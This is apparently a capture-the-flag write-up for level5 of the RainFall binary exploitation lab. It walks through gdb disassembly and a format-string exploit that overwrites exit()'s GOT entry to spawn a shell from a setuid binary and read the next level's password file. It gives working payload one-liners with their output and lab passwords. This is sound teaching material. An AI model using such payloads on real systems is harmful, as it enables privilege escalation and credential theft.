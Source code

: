 Login as `level5`.
```shell
┌──$ [~/42/2022/rainfall]
└─>  ssh 192.168.1.28 -p 4242 -l level5
level5@192.168.1.28's password: 0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level5/level5
```
A `SUID` executable is located in the home directory.
```shell
level5@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level6 users 5385 Mar  6  2016 level5
```
Examine all defined functions.
```gdb
(gdb) info functions
[...]
0x080484a4  o
0x080484c2  n
0x08048504  main
[...]
```
`o()` function execute systemcall running a shell.
```gdb
(gdb) disassemble o
Dump of assembler code for function o:
   0x080484a4 <+0>:	push   %ebp
   0x080484a5 <+1>:	mov    %esp,%ebp
   0x080484a7 <+3>:	sub    $0x18,%esp
   0x080484aa <+6>:	movl   $0x80485f0,(%esp)
   0x080484b1 <+13>:	call   0x80483b0 <system@plt>
   0x080484b6 <+18>:	movl   $0x1,(%esp)
   0x080484bd <+25>:	call   0x8048390 <_exit@plt>
End of assembler dump.
```
`n()` function gets user input, print it and exit with exit code 1. Obviously the address of `exit()` should be overwritten with address of `o()`.
```gdb
(gdb) disassemble n
   [...]
   0x080484f8 <+54>:	movl   $0x1,(%esp)
   0x080484ff <+61>:	call   0x80483d0 <exit@plt>
```
As described in level4, there are two method to write arbitrary data to potentially carefully-selected address - overwrite `exit()`'s address by `o()`'s address.

To `%n` writes value `0x080484a4` into `0x08049838`, first convert it to decimal which gives 134513828 and subtract 4 as 4 bytes are written by address itself.
```shell
level5@RainFall:~$ (python -c 'print "\x38\x98\x04\x08" + "%0134513824x%4$n"'; echo "cat /home/user/level6/.pass") | ./level5
000000000000000000000000000000000000000000000000000000000000000[...]000000000000000000000000000000000000000200
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```
Addresses of functions:
```
exit() = 0x08049838
   o() = 0x080484a4
```
The process of calculating values to write
```
4 0xa4 164 > 4+4+4+4+x             = 164 (0xa4)  x=148
3 0x84 132 > 4+4+4+4+148+x         = 388 (0x184) x=224
2 0x04   4 > 4+4+4+4+148+224+x     = 516 (0x204) x=128
1 0x08   8 > 4+4+4+4+148+224+128+x = 520 (0x208) x=4
```

Exploit and log on to the next level.
```shell
level5@RainFall:~$ (python -c 'print "\x38\x98\x04\x08" + "\x39\x98\x04\x08" + "\x3a\x98\x04\x08" + "\x3b\x98\x04\x08" + "%148hhx%4$n"+ "%224hhx%5$n" + "%128hhx%6$n" + "%4hhx%7$n"'; echo "cat /home/user/level6/.pass") | ./level5
89:;                                                                                                                                                   0                                                                                                                                                                                                                              c0                                                                                                                              d0  38
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```
